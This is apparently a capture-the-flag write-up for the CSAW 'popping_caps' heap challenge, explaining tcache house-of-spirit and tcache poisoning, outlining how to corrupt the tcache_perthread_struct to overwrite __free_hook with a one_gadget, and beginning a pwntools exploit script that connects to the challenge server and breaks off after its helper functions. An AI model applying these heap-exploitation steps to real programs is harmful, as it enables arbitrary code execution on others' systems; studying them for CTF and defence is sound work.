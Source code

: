 So again this strange binary that gives to us directly a leak, with the same limit of 7 actions permitted.

Then we have the following action permitted:
- Malloc: as the name says, it does a malloc with the size given by us
- Free: free whatever you want, i mean the input given is summed with the address of the previous malloc, or 0, if nothing was allocated before
- Write: write 0xFF byte in the allocated chunck
- Bye: print to stdout a message and then directly exit, but without calling the malloc


The vulnerability are:
 - tcache house of spirit: we can free the same chunck in tcache bin
 - tcache poisoning: we can free whatever we want, and so we could use a fake chunk (with the necessary constraints, e.g 8 aligned address)

This time i just intended directly the solution, that was free something and then corrupt the tcache_parthread_struct, so we can overwrite a tcache_entry.

#### Solution
 - malloc something to initialize the heap
 - free the tcache_perthread_struct, then get it back
 - now write '\x00' till the tcache_entry, then fill it with the '__free_hook'
 - get back the '__free_hook', now we can write the one_gadget to win, after we free something

```
from pwn import *
import signal
import sys
import time
import struct

def signal_handler(sig, frame):
        print('You pressed Ctrl+C!')
        sys.exit(0)

#signal.signal(signal.SIGINT, signal_handler)
prog_name = './popping_caps'
#context.log_level = logging.DEBUG #with debug output
context.binary = prog_name
debug = int(sys.argv[1])
online=False
if( debug == 0):
  r = remote("pwn.chal.csaw.io",1008)
  libcz = ELF("libc.so.6")
  #libcz = ELF("/lib/x86_64-linux-gnu/libc.so.6")
  online=True
elif(debug == 1):
  #r = process(prog_name, aslr=False)
  r = process(prog_name, env={'LD_LIBRARY_PATH':'.'})
  libcz = ELF("libc.so.6")

def halt():
  while True:
    log.info( r.recvline() )

def malloc(sizes):
  r.recvuntil("Your choice:")
  r.sendline('1')
  r.recvuntil("How many:")
  r.sendline(str(sizes))

def free(index):
  r.recvuntil("Your choice:")
  r.sendline('2')
  r.recvuntil("hats in a free:")
```